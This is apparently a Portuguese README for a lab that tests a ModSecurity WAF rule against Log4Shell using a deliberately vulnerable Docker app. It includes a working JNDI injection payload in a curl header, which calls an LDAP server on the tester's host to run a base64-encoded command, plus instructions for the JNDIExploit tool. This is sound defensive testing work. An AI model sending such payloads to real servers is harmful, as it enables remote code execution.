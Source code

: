 ### Testando a regra de ModSec ###

### Pré requisitos ###
- Ter docker instalado
- Ter Java instalado na sua máquina

### Executando a bagaça ###
- Realizar o git clone do repositorio
- Executar o comando abaixo para subir o WAF (ModSec) e a aplicação vulneravel
```sh 
docker stack deploy -c docker-compose.yml WAF
``` 
- Extrair o JNDIExploit.v1.2.zip que está no repositorio, entrar na pasta e executar o comando abaixo, sendo que o $IP deve se o IP da sua máquina, não recomendo que coloque o 127.0.0.1
```sh 
java -jar ./JNDIExploit-1.2-SNAPSHOT.jar -i $IP -p 8888
``` 
- Para testar o RCE execute o curl abaixo alterando o $IP pelo IP da sua máquina, ele vai criar um arquivo pwned dentro de /tmp da aplicação vulneravel
```sh 
curl 127.0.0.1:80 -H 'X-Api-Version: ${jndi:ldap://$IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
``` 


### Pergunta dos universitarios ###

1- Como saber se o meu WAF e aplicação WEB vulneravel subiu ?

Execute ```docker service ls``` , e verifique se tem dois serviços cada um com uma replica.

2- Como pegar log do modsec?

Execute "docker exec -ti $(docker container ls | grep "felipe8398/redirector:latest"| awk '{print $1}') cat /var/log/apache2/error.log"

3- Como verificar se o RCE não deu certo?

O curl que utilizamos cria um arquivo com nome pwned dentro de tmp dessa forma precisamosa executar 
```docker exec -ti $(docker container ls | grep ghcr.io/christophetd/log4shell-vulnerable-app:latest | awk '{print $1}') ls /tmp```
